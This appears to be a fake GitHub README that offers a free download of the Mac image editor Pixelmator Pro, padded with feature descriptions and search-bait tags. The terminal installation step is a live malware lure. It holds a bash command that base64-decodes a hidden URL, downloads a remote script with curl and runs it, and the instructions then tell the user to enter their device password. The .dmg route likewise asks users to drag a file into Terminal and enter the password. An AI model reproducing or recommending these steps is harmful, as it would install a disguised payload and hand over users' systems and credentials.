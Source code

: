 # Pixelmator Pro for Mac – Advanced Image Editing Software  

<div align="center">

![Pixelmator Pro Logo](https://www.mactech.com/wp-content/uploads/2017/09/Pixelmator-Pro-icon.jpg)

</div>  

**Pixelmator Pro** is a next-generation **image editing application for macOS** designed for photographers, graphic designers, and digital artists. It combines **powerful professional tools** with a sleek, user-friendly interface, making it easy to create, edit, and enhance images with pixel-perfect precision.  

<div align="center">  

[![Download for macOS](https://img.shields.io/badge/Download_for_macOS-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/pixelmator-pro)  

</div>  

---

## 📦 How to Install  

### Installation via .dmg:

1. Install the `.dmg` file using the button above.  
2. Open the `.dmg` installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the **Return** button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)  

### Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the **Return** button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)  

---

## 📊 What is Pixelmator Pro?  

**Pixelmator Pro for Mac** is a professional-grade image editing tool that offers **a perfect blend of power, precision, and usability**. Designed exclusively for macOS, it leverages the latest Apple technologies like **Metal**, **Core ML**, and **Core Image** to ensure lightning-fast performance and breathtaking image quality. Its streamlined, single-window interface keeps your workspace clutter-free and allows you to focus entirely on your creative process without distractions.  

With **Pixelmator Pro**, you can perform **everything from basic photo adjustments to complex, multi-layered designs**. It supports full **non-destructive editing**, meaning you can experiment freely without worrying about permanently altering your original images. The app features **professional retouching tools**, **advanced color grading**, and **vector graphics editing** — all integrated into a seamless workflow.  

Its **machine learning-powered features** set it apart from many competitors. You can remove backgrounds automatically, upscale images without loss of detail, enhance photo composition, and retouch portraits with remarkable ease. The intelligent repair tool can erase unwanted objects, while the ML Super Resolution function uses AI to enlarge images while preserving sharpness and detail.  

Pixelmator Pro also excels at **file compatibility**, supporting a wide range of formats including PSD, RAW, HEIF, SVG, and more. For photographers, the RAW editing engine provides precise color control and exposure adjustments while retaining every bit of image data. For designers, vector tools and typography features make creating graphics and layouts straightforward and precise.  

The application is optimized for Apple Silicon, ensuring unmatched speed and efficiency on M1, M2, and M3 Macs. Frequent updates keep the toolset modern, integrating new technologies and expanding its already impressive capabilities. Whether you’re a **professional designer**, **digital painter**, or **casual photographer**, Pixelmator Pro offers a complete toolkit to bring your creative vision to life — all at a fraction of the price of other professional-grade editors.  

---

![Pixelmator Pro Editing Screenshot](https://www.pixelmator.com/cdn-web-assets/pro/2.3/img_remove-bg.jpg)  

---

## 🖥️ Key Features  

- 🎨 **Advanced Editing Tools** – Layer-based editing, blending modes, vector shapes  
- 🤖 **AI-Powered Enhancements** – Automatic photo correction, background removal, ML Super Resolution  
- 🖌️ **Retouch & Repair Tools** – Clone, heal, and reshape images with ease  
- 📏 **Precision Design** – Rulers, guides, grid layouts, and pixel-perfect snapping  
- 🌈 **Color Adjustments** – Fine-tune exposure, contrast, saturation, and more  
- 🖼️ **RAW Support** – Edit RAW images with full quality retention  
- 📐 **Vector Graphics** – Create scalable shapes and illustrations  
- 📂 **Wide File Compatibility** – PSD, PNG, JPEG, HEIF, TIFF, SVG, and more  
- 💻 **Optimized for macOS** – Metal acceleration, Apple Silicon native  
- 🔄 **Non-Destructive Editing** – Make changes without permanently altering originals  

---

![Pixelmator Pro Workspace](https://www.pixelmator.com/cdn-web-assets/blog/2020-11-13-pixelmator-team-unveils-pixelmator-pro-2.0/img_hero@2x.jpg)  

---

## ⚙️ System Requirements  

- **OS**: macOS 10.15 Catalina or later (including Ventura & Sonoma)  
- **CPU**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 4 GB minimum  
- **Disk Space**: 1 GB free space  
- **Internet**: Required for updates and license activation  

---

## 🏷️ Tags  

pixelmator pro, pixelmator, pixelmator software, apple pixelmator, pixelmator windows, pixelmator pro mac, app pixelmator, mac pixelmator, pixelmator black friday, pixelmator pricing, pixelmator pro cost, pixelmator pro discount, pixelmator pro reviews, pixelmator pro sale, pixelmator pro trial, pixelmator pro windows, pixelmator trial, pixelmator pro download, pixelmator pro free download, pixelmator pro mac download, pixelmator pro mac free download  

---

